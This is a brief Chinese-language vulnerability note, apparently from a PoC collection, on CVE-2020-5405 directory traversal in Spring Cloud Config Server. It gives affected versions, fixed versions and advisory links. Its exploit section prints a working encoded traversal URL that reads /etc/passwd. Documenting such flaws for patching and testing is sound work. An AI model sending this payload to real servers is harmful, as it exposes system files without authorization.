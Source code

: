 ### 一 漏洞描述
Spring Cloud Config、2.2.2 之前的 2.2.x 版本、2.1.7 之前的 2.1.x 版本以及不受支持的旧版本，由于spring-cloud-config-server模块对传入路径进行安全限制有疏漏，攻击者可进行目录遍历。

### 二 漏洞利用
```
http://127.0.0.1:8888/aaaa/aaaa/%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%65%74%63/passwd
```

### 三 漏洞修复
2.2.x > 2.2.2
2.1.x > 2.1.7

> 参考链接
> 公告: https://tanzu.vmware.com/security/cve-2020-5405
> 分析: https://xz.aliyun.com/t/7558
